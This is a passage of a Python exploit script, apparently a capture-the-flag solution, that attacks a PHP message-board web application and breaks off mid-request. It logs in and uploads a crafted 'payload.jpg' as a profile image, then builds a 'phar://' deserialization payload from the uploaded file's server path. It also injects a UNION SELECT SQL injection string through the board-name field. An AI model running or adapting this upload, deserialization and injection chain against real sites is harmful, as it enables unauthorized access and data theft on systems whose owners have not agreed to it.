 ```python
    data={
        "user": ID, 
        "pass": PW
    }
)
assert r.status_code == 200

r = s.post(
    f"{url}/users/loginapi.php", 
    data={
        "user": ID, 
        "pass": PW  
    }
)
assert r.status_code == 200

r = s.post(
    f'{url}/users/editapi.php', 
    data={
        'user': ID,
        'pass': PW
    }, 
    files={
        'file': ('file.jpg', open('payload.jpg', 'rb'), 'image/jpg')
    }
)
assert r.status_code == 200

r = s.post(
    f"{url}/users/loginapi.php", 
    data={
        "user": ID, 
        "pass": PW  
    }
)
assert r.status_code == 200

r = s.post(f"{url}/users/profileapi.php")
assert r.status_code == 200

filepath = f'/var/www/html{r.json()["filepath"]}'

r = s.post(
    f'{url}/board/createapi.php', 
    data={
        'title': 'asd',
        'content': 'asd',
        'bname': 'main'
    }
)
assert r.status_code == 200

index = r.json()['idx']

payload = f'phar://{filepath}'

r = s.post(
    f'{url}/board/editapi.php', 
    data={
        'idx': index,
        'bname': '&#092;\' UNION SELECT &quot;&quot;,&quot;main,users#&quot;,&quot;&quot;,&quot;&quot;;#',
        'toname': 'main,users#',
```